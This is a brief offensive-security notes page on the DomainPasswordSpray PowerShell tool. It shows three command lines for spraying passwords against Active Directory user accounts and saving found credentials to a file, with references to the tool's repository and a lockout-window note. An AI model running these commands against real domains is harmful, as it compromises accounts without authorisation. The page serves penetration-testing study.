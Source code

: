 # DomainPasswordSpray

TODO: Fill this info

- Perform automated user enumeration then password spray process when executing from the current domain.

`PS C:\> Invoke-DomainPasswordSpray -Password <password> -OutFile credentials.txt`

- Specifying a password list then check for [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/02 - Enumeration and Discovery/Windows/Host/Internal Reconnaissance/Users/Manual/Manual|account lockout observation window]]

`PS C:\> Invoke-DomainPasswordSpray -PasswordList passwords.txt -OutFile credentials.txt`

https://pwn.no0.be/exploitation/password/account_lockout/

`PS C:\> Invoke-DomainPasswordSpray -Domain <DOMAIN> -UserList users.txt -Password <password> -OutFile credentials.txt`

---
## References

- [dafthack: DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

- [Pwnage Base: Password Spray](https://pwn.no0.be/exploitation/password/smb/)